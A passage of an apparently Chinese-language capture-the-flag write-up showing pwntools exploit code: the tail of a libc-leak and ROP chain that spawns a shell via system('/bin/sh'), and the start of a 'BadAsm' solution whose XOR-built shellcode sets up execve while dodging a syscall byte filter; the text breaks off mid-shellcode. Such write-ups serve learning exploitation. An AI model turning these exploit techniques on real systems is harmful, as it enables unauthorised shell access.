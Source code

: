 ```python

# Send the payload
p.sendline(payload)
  
p.recvuntil(b'Encrypted: ')
p.recvuntil(b'\n')
leaked_address = u64(p.recv(8))
print(f'Leaked address: {hex(leaked_address)}')

base = leaked_address - libc.symbols['write']
print(f'Libc base: {hex(base)}')
system = base + libc.symbols['system']
bin_sh = base + next(libc.search(b'/bin/sh'))

payload = b'a' * 0x18 + p64(ret)
payload += p64(rdi)
payload += p64(bin_sh)
payload += p64(system)

payload = decrypt(payload, key, len(payload))
p.sendline(payload)
p.interactive()
```
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020241006022233.png)
运行后获取flag
### BadAsm(复现)
本题为一道shellcode的题目，需手动编写一段shellcode输入来获取shellcode，程序限制了不能使用`syscall/sysenter/int 0x80`机器码，由于使用`strcpy`来将我们编写的`shellcode`输入至栈上，同时不能含有`\x00`。
这道题我采用异或出syscall的机械码后直接执行的方法
exp:
```python
from pwn import *
import pwnlib.gdb

context(arch='amd64', os='linux', log_level='debug')
local = True
if local:
    p = process('./BadAsm')
    # pwnlib.gdb.attach(p, 'b *$rebase(0x147f)')
else:
    p = remote('')
'/bin/sh\x00 = 0068 732F 6E69 622F'

shellcode='''
    mov rsp, rdi
    add sp, 0x0848 ; //赋予rsp合法值，否则会无法运行push/pop
    
    mov rsi, 0x4028336F2E29226F
    mov rdx, 0x4040404040404040
    xor rsi, rdx ; //用异或搓出/bin/sh\x00，这里必须用寄存器存，不然应该是会超出xor的处理长度(应该是这个意思)
    ; //mov rsi, 0x4028336F2E29226F
    ; //xor rsi, 0x4040404040404040
    ; //上面这种不行
    push rsi ; //push后会直接存在rsp中
    
    mov rdi, rsp
    xor rsi, rsi
    xor rdx, rdx ; //将binsh的地址存入rdi，设置rsi,rdx
    xor rax, rax
    mov al, 59 ; //设置rax的值为59，既execve的系统调用号
    
    mov cx, 0x454f
```